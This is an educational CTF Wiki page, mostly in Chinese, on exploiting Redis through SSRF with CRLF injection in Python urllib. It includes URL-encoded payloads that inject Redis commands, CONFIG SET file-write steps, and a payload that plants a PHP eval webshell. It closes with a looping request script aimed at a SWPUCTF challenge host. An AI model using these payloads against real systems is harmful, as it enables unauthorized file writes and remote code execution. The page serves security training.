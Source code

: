 # Redis 
!!! warning
    The current page still doesn't have a translation for this language.

    You can read it through google translate.

    Besides, you can also help to translate it: [Contributing](https://ctf-wiki.org/en/contribute/before-contributing/).



http://redisdoc.com/string/set.html 

上面的链接时redis的指令参考集，实际使用的同时并不会全部用上，只会使用到部分。

## python urllib SSRF

### 如何攻击Redis

两种方案，具体看参考链接。原理都是一样的，写文件到目标目录。

```
CONFIG SET dir /tmp
CONFIG SET dbfilename evil  //这一步可以将db设置为/tmp/evil,可以控制文件里面的部分数据了。
SET foo bar
SAVE
```

上述Redis命令可以使`key-value`数据保存在`/tmp/evil`文件中，也就是我们可以控制里面的部分内容： [![img](https://i.imgur.com/rq0THqE.png)](https://i.imgur.com/rq0THqE.png)

### 0x02 Python urllib HTTP头注入(crlf+ssrf)

简单使用一下代码测试访问url：

```
import urllib
import sys

urllib.urlopen(sys.argv[1])
```

这里是个SSRF漏洞，当输入一下payload，还能注入我们想要的http头数据： 输入：

```
python urlopen.py http://127.0.0.1%0d%0aX-injected:%20header%0d%0ax-leftover:%20:12345/foo
```

监听本机12345端口，得到发包数据：

```
GET /foo HTTP/1.0
Host: 127.0.0.1
X-injected: header  //头数据注入
x-leftover: :12345
User-Agent: Python-urllib/1.17
```

不仅如此，还可以改变请求构造为POST数据。具体参考链接1。和Gopher协议有同样的妙用。

### 0x03 结合攻击Redis

发送payload到内网Redis端口：

```
http://192.168.0.7%0d%0aSET%20A%20EVIL%0d%0a:6379/foo
```

可以在Redis中添加`A:EVIL`的键值对,即：执行了`SET A EVIL`命令。数据包为：

```

GET /foo HTTP/1.0
Host: 192.168.0.7
SET A EVIL
:12345
User-Agent: Python-urllib/1.17
```

[![img](Redis.assets/1NiCcyb.png)](https://i.imgur.com/1NiCcyb.png)

### 0x04 实际shell攻击

#### 1. 写入空格限制

Redis协议突破空格限制：

```
*3
$3
SET
$1
A
$9
test you
```

url编码得到payload：

```
http://192.168.0.7%0D%0A%2a3%0D%0A%243%0D%0ASET%0D%0A%241%0D%0AA%0D%0A%248%0D%0Atest%20you%0D%0A:6379/foo
```

测试结果如下，成功执行命令：

```
127.0.0.1:6379> get A
"EVIL"
127.0.0.1:6379> get A
"test you"
```

#### 2. 综合利用写文件

测试payload直接写文件： redis原命令：

```
SET foo \n<?php @eval($_POST[c][/c]);?>\n
CONFIG SET dir /tmp
CONFIG SET dbfilename webshell
SAVE
```

即：

```

*3
$3
SET
$5
shell
$27
\n<?php @eval($_POST[c][/c]);?>\n
CONFIG SET dir /tmp
CONFIG SET dbfilename webshell123
SAVE
```

按照上述编码规则可得payload：

```
python urlopen.py http://192.168.0.7%0D%0A%2a3%0D%0A%243%0D%0ASET%0D%0A%245%0D%0Ashell%0D%0A%2427%0D%0A%0A%3C%3Fphp%20%40eval%28%24_POST%5Bc%5D%29%3B%3F%3E%0A%0D%0ACONFIG%20SET%20dir%20%2ftmp%0D%0ACONFIG%20SET%20dbfilename%20webshell123%0D%0ASAVE%0D%0A:6379/foo
```

成功写入shell到/tmp/webshell123文件中，文件内容如下： [![img](Redis.assets/csPfIyx.png)](https://i.imgur.com/csPfIyx.png) 定时任务反弹shell和添加ssh-key方法，详见链接2。

### 样例：[SWPUCTF 2016]Web7

```
http://127.0.0.1%0d%0aCONFIG%20SET%20dir%20%2ftmp%0d%0aCONFIG%20SET%20dbfilename%20evil%0d%0a:6379/foo
数据库保存位置修改
```



```
import requests

url = "http://6fe99eb6-b7ba-4e34-b5b4-6ce622aca224.node4.buuoj.cn/input"
data = {"url":"http://127.0.0.1%0d%0aCONFIG%20SET%20dir%20%2ftmp%0d%0aCONFIG%20SET%20dbfilename%20evil%0d%0a:6379/foo",
        "submit":"submit"}
data1 = {

}
while (1) :
    r = requests.post(url=url, data=data)
    print (r.text)
密码修改
```